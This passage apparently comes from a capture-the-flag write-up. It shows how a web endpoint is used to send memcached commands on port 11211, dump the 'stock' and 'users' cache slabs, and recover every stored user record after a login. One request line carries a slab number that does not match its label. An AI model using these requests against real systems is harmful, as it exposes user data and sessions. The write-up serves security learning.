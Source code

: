 There are two slabs _(STAT 16 and STAT 26)_ with different sizes.

Looking into the items of _STAT 16_ first with `stats cachedump 16 0`:
```markdown
GET /socket?port=11211&cmd=stats+cachedump+16+0
```
```markdown
ITEM stock [2807 b; 1601303385 s]
```

The item name is _stock_ and that seems to be the data that port 80 cached.
Lets see what it consists of with `get stock`:
```markdown
GET /socket?port=11211&cmd=get+stock
```
```markdown
END
```

The cache is empty, but we can put something in there by refreshing the web service on _port 80_ a few times and look into the contents of the cache again:
```markdown
VALUE stock 0 2807
(All the items)
END
```

After waiting some seconds and sending the request again, the contents of the _stock_ cache gets emptied.

Now looking into the items of _STAT 26_ with `stats cachedump 26 0`:
```markdown
GET /socket?port=11211&cmd=stats+cachedump+16+0
```
```markdown
ITEM users [24625 b; 1601309431 s]
```

The item name is _users_, so lets see what it consists of with `get users`:
```markdown
GET /socket?port=11211&cmd=get+users
```
```markdown
END
```

The cache is empty, but assuming it is for caching the user sessions, it should fill with information when logging into the web service on _port 80_.
After logging in again, it shows all the users:
```markdown
VALUE users 0 24625
(All the users)
END
```

This output can be decoded with **Burpsuite** _Smart decode_ and it gets formatted into JSON data, which can be made readable with `jq`.
```markdown
jq . users.json
```
